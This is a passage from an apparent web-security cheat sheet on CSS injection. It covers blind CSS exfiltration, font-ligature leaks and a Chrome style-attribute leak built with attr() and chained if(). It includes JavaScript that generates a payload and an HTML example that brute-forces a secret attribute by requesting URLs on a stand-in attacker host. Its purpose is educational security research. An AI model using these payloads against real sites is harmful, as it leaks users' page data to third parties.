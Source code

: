 In cases where you are testing for an injection without knowing where it will end up, potentially on someone else's browser, you won't know exactly what to target with the leak yet. Below is an implementation that leaks a lot of information on the page so you can figure out what the page looks like only using CSS exfiltration:

{% embed url="https://portswigger.net/research/blind-css-exfiltration" %}
Leak structure of unknown data
{% endembed %}

### Font ligatures

[Ligatures](https://en.wikipedia.org/wiki/Ligature_\(writing\)) are multiple characters that form a single character in a specific font. By loading a custom-created font with carefully crafted ligatures if varying sizes in CSS, you can measure the width conditionally using media queries. This allows you to determine which character are on a page, and which come after it using ligatures.

The tool below implements all this logic incredibly and has some features for inlining fonts as well with the `/static` endpoint. Check out the blog post to understand how it works:

{% embed url="https://adragos.ro/fontleak/" %}

### `style=` attribute leak with `if()`

An injection into the `style=` **attribute** is very limited, because selectors won't be available. On Chrome, you can still use some of the more recent features of [`attr()`](https://developer.mozilla.org/en-US/docs/Web/CSS/attr) to get an any attribute on the same element's value, then compare against it with chained [`if()`](https://developer.mozilla.org/en-US/docs/Web/CSS/if) statements to fetch different URLs.

This allows you to brute-force a value if there aren't too many possibilities:

{% code title="Generate attribute value" %}
```javascript
const possibilities = Array.from({ length: 100 }, (_, i) => i);
const attribute = "data-secret";
const attacker = "example.com";

const chain = possibilities.reduce(
    (acc, v) => `if(style(--val:"${v}"):url(//${attacker}/${v});else:${acc})`,
    'url(//example.com/unknown)'
);
const style = `--val:attr(data-secret);--steal:${chain};background:image-set(var(--steal))`
console.log(style);  // 4967 bytes
```
{% endcode %}

{% code title="Exploit example" %}
```html
<div data-secret="42" style='
  --val: attr(data-secret);
  --steal: if(style(--val:"99"):url(//example.com/99);else:if(...
  background: image-set(var(--steal));
'>
```
{% endcode %}
